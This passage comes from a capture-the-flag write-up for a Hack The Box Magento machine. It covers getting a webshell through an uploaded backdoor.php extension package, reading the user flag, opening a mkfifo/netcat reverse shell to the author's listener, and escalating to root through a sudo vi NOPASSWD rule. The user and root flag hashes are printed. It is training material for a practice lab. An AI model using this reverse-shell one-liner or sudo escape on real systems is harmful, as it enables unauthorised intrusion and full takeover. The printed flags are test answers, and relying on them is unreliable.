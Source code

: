 In order to make sure I had a clean build I built a new .tgz from scratch using

`tar -xvzf backdoor.tgz errors/ package.xml`

This time the `backdoor.php` file was actually a file and clicking on it connected back to my listener.

At this point running `id` showed I was the www-data user, which wasn't unexpected. I decided to try for the user flag first, which turned out to be easy:
```bash
    10.10.10.140: inverse host lookup failed: Unknown host
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.140] 58342
    cd /home/
    ls
    haris
    cd haris
    ls
    user.txt
    cat user.txt
    a448877277e82f05e5ddf9f90aefbac8
```
### Getting root

I did an `ls -al` in `/home/haris` out of habit &nbsp;and noticed the SUDO file which got me thinking about elevating &nbsp;privileges. Looking the sudeors file we see the line:

`www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*`

This means the `www-data` user can run vi as root on any files in `/var/www/html`  
So, if we try this the shell hangs, I guess sudo doesn't work in such a basic shell.

At this point I tried a bunch of techniques to get a full tty but none of them worked. I then thought about a different technique to get a slightly better shell.  
To do this I started another listener with `nc -lvp 4096` and then in the webshell I ran

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 4096 > /tmp/f`

This allowed me to catch a sh shell in my other listener.. I can now run vi as root with:

`sudo vi /var/www/html/cron.sh`

and once I'm in vi I can spawn a root shell with `:!/bi/sh`

And now we can go after the root flag:
```bash
    id
    uid=0(root) gid=0(root) groups=0(root)
    cd /root
    ls
    root.txt
    cat root.txt
    c2b087d66e14a652a3b86a130ac56721
    
       ______
     /| |/|\| |\
    /_| ´ |.` |_\ We are open! (Almost)
      | |. |
      | |. | Join the beta HTB Swag Store!
      | ___|.__ | https://hackthebox.store/password
    
                       PS: Use root flag as password!
```
## Extra Credit
